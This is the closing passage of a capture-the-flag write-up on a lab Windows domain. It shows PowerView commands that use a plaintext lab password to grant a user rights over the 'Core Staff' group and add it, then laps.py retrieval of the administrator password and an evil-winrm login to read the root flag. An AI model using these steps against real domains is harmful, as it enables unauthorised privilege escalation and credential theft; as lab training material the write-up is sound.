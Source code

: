 
[![](https://blogger.googleusercontent.com/img/a/AVvXsEhca5XL-7YWYzycLW92jAzqQhrAFcZew25ByRvn5tMnrAtEUv9FsLut72I7EyMM-r7oDY8b14qnr9jWc5pLljT5xva50fyoVf017EZX1pJM6GXbe9adPk-aL58ObFpALWpiIuNytOqiTuA5glEFKO2XxWfMrrkj9CO68IBUXSAKUjOPUmTiq1lKo6J3Uw=w400-h300)](https://blogger.googleusercontent.com/img/a/AVvXsEhca5XL-7YWYzycLW92jAzqQhrAFcZew25ByRvn5tMnrAtEUv9FsLut72I7EyMM-r7oDY8b14qnr9jWc5pLljT5xva50fyoVf017EZX1pJM6GXbe9adPk-aL58ObFpALWpiIuNytOqiTuA5glEFKO2XxWfMrrkj9CO68IBUXSAKUjOPUmTiq1lKo6J3Uw)

  
  

We read the explanation provided by **bloodhound**, install the **PowerView.ps1** script and execute the following commands:

  

     $SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force   
     $Cred = New-Object System.Management.Automation.PSCredential('streamio\JDgodd',$SecPassword)   
     Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -principalidentity "streamio\JDgodd"   
     Add-DomainGroupMember -identity "Core Staff" -members "streamio\JDgodd" -credential $Cred  
    

Now, we run the **laps.py** script with the "_Jdgodd_" credentials and we will get the administrator password:

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEgFCRL6Ut01Xz2T-k_YvzIMFJ0qFJvXYPTXkQr65k6i_vWg0ldAt3kVtBgKJ9OX3GKCcfRUHZ8RpGTX7-2MMMmInWglHzPuOnut2OkE5PaqOuwaz501aCFl42I75VPu9vvM4bipkHpZN8nEEvNMF3ErCDxplp2zVTKfQHQJxtnSm_WxbAlGtGRqDYb5GA=w640-h78)](https://blogger.googleusercontent.com/img/a/AVvXsEgFCRL6Ut01Xz2T-k_YvzIMFJ0qFJvXYPTXkQr65k6i_vWg0ldAt3kVtBgKJ9OX3GKCcfRUHZ8RpGTX7-2MMMmInWglHzPuOnut2OkE5PaqOuwaz501aCFl42I75VPu9vvM4bipkHpZN8nEEvNMF3ErCDxplp2zVTKfQHQJxtnSm_WxbAlGtGRqDYb5GA)

  
We connect with the credentials of administrator by **evil-winrm**, we read the root flag but it is not in its directory, we look for the file "_root.txt_" and we find it hosted on the desktop of the administrator "_Martin_" and we read the flag.

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEiQW3jU9W5vYGlemjd1ANvd7lGEFGSa_S-YSsosoT_7zDTRQJ9LBs1ToPRH5o4OrbnAh42ywnD8lJjbcdLDXuAubctNwgUyN0CV9PBAl8lBD5IkLsIx7GS5-N9QC1rx4xfysZGGRkEnjWsrwaK3BaOFrpK-ORw0hsRO16lQPyVq_fgmafWbGKwsbt_hfQ=w640-h410)](https://blogger.googleusercontent.com/img/a/AVvXsEiQW3jU9W5vYGlemjd1ANvd7lGEFGSa_S-YSsosoT_7zDTRQJ9LBs1ToPRH5o4OrbnAh42ywnD8lJjbcdLDXuAubctNwgUyN0CV9PBAl8lBD5IkLsIx7GS5-N9QC1rx4xfysZGGRkEnjWsrwaK3BaOFrpK-ORw0hsRO16lQPyVq_fgmafWbGKwsbt_hfQ)

  

* * *

About
-----

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

![](https://m3n0sd0n4ld.github.io/imgs/linkedin.png) [David-Uton](https://www.linkedin.com/in/david-uton/) ![](https://m3n0sd0n4ld.github.io/imgs/twitter.png) [@David\_Uton](https://twitter.com/David_Uton)




